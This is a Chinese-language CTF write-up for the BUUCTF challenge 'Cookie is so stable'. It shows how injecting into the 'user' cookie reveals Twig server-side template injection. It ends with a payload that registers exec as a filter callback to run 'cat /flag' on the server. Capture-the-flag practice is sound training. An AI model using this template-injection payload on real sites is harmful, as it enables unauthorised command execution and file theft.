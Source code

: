# T21 Cookie is so stable

> 题目：BUUCTF [BJDCTF2020]Cookie is so stable

__0X00 审题__

打开页面，看到他在欢迎我们（，有两个页面，flag，hint

依次点开，hint中注意看源码

```
<!-- Why not take a closer look at cookies? -->
```

可以看出，重点在cookie，结合题目名称可以理解，重点出在cookie上，然后打开flag

让写名字，admin进入后发现：

```
{
	"请求头 (586 字节)": {
		"headers": [
			{
				"name": "Accept",
				"value": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8"
			},
			{
				"name": "Accept-Encoding",
				"value": "gzip, deflate"
			},
			{
				"name": "Accept-Language",
				"value": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2"
			},
			{
				"name": "Connection",
				"value": "keep-alive"
			},
			{
				"name": "Cookie",
				"value": "PHPSESSID=bf057f951b7570f17012c6e686dd8b1e; user=admin"
			},
			{
				"name": "Host",
				"value": "c60add8c-dc7b-4a07-81c6-cfe6a4d052df.node4.buuoj.cn:81"
			},
			{
				"name": "Referer",
				"value": "http://c60add8c-dc7b-4a07-81c6-cfe6a4d052df.node4.buuoj.cn:81/flag.php"
			},
			{
				"name": "Upgrade-Insecure-Requests",
				"value": "1"
			},
			{
				"name": "User-Agent",
				"value": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0"
			}
		]
	}
}
```

* 其中cookie的值后跟着user=admin

经过改变user值，发现其随着改变

__0x01 解题__

1. BP抓包，

```
Cookie: PHPSESSID=bf057f951b7570f17012c6e686dd8b1e; user=
```
当输入为{{7*7}}，返回49

输入{{7*'7'}}，返回49

两个返回相同

> 到这里，我们已经可以看出，这个题是关于SSTI漏洞，何为SSTI漏洞（曾经在[第十一题](https://github.com/uicciu/uicciu.github.io/blob/ctf/T11%20%E8%BF%87%E5%B9%B4%E4%B8%AD.md)有缘相见）

> 但是很显然他解决不了我的迷惑（所以再放一篇[关于SSTI](https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E/#2-Twig))

2. 到此我们已知此题是Twig,后我们可以构造payload

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```

即可得到答案

__0x02 总结__

* 关于服务器模板注入的类型，原理，攻击方法
* 注：关于复习


